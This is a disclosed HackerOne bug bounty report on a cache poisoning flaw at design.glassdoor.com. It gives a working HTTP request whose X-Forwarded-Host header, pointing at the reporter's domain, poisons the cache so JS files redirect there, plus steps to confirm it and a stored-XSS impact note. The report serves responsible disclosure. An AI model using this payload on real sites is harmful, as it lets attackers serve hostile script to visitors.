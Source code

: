 # Cache Poisoning allows redirection on JS files

## Report Details
- **Report ID**: 1795197
- **URL**: https://hackerone.com/reports/1795197
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-12-07T00:38:47.764Z
- **Disclosed**: 2023-08-24T14:26:15.282Z

## Reporter
- **Username**: youstin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
Hi,

I found the following Cache Poisoning vulnerability:

1. Send the following request: ( this will poison `/test.js` into redirecting to `https://youst.in/test.js`) 

```http
GET /test.js?cb=1 HTTP/2
Host: design.glassdoor.com
Sec-Ch-Ua: "Google Chrome";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: text/css,*/*;q=0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: style
Referer: https://design.glassdoor.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme:  http
X-Forwarded-Host: youst.in

```

2. You should notice the `Cf-Cache-Status: MISS` header when first sending the request. After sending another request, you should see `Cf-Cache-Status: HIT`, confirming the redirect has been cached.

3. You can also visit the url in a browser and notice you get redirect to `youst.in`.

## Impact

An attacker can use the same attack against valid JS files leading to full control over the loaded JS. If any Glassdoor websites import javascript files from `https://design.glassdoor.com/*` they are susceptible to a Stored XSS attack via Cache Poisoning.

## Attachments
No attachments
